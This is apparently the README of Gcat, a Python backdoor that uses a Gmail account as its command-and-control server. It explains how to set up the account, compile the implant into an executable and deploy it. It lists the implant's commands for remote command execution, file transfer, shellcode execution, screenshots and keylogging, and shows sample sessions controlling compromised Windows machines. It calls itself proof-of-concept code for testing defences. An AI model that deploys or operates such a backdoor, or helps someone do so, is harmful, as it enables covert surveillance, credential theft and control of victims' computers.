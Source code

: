 # Gcat
A stealthy Python based backdoor that uses Gmail as a command and control server

This project was inspired by the original [PoC code](https://bitbucket.org/Zaeyx/gcat) from Benjamin Donnelly

## This is PoC code...
... that was released for orginazations to test their defenses against these type of attacks. In order to detect them see projects like [RITA](https://github.com/activecm/rita).

For a more up to date and maintained version of this project see [GDog](https://github.com/maldevel/gdog)

## Setup 

For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

You're probably going to want to compile ```implant.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile implant.py using a 32bit Python installation**

# Usage

```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YUR COMPUTERZ...

                        WATCHIN YUR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

# To Do

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
